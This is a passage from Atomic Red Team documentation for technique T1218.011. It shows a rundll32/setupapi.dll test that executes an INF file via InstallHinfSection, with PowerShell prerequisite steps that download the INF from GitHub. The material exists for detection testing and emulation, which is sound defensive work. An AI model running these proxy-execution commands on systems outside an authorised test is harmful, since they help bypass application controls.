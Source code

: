 ```powershell
if (Test-Path "#{inf_to_execute}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{inf_to_execute}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.011/src/T1218.011_DefaultInstall.inf" -OutFile "#{inf_to_execute}"
```

<br/>
<br/>

## Atomic Test #7 - Rundll32 setupapi.dll Execution

Test execution of a command using rundll32.exe with setupapi.dll. Upon execution, a windows saying "installation failed" will be opened

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Setupapi.yml

**Supported Platforms:** Windows

**auto_generated_guid:** 71d771cd-d6b3-4f34-bc76-a63d47a10b19

#### Inputs:

| Name           | Description                | Type   | Default Value                                                              |
| -------------- | -------------------------- | ------ | -------------------------------------------------------------------------- |
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1218.011&#92;src&#92;T1218.011_DefaultInstall.inf |

#### Attack Commands: Run with `command_prompt`!

```cmd
rundll32.exe setupapi.dll,InstallHinfSection DefaultInstall 128 "#{inf_to_execute}"
```

#### Dependencies: Run with `powershell`!

##### Description: Inf file must exist on disk at specified location ("#{inf_to_execute}")

##### Check Prereq Commands:

```powershell
if (Test-Path "#{inf_to_execute}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{inf_to_execute}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.011/src/T1218.011_DefaultInstall.inf" -OutFile "#{inf_to_execute}"
```

<br/>
<br/>
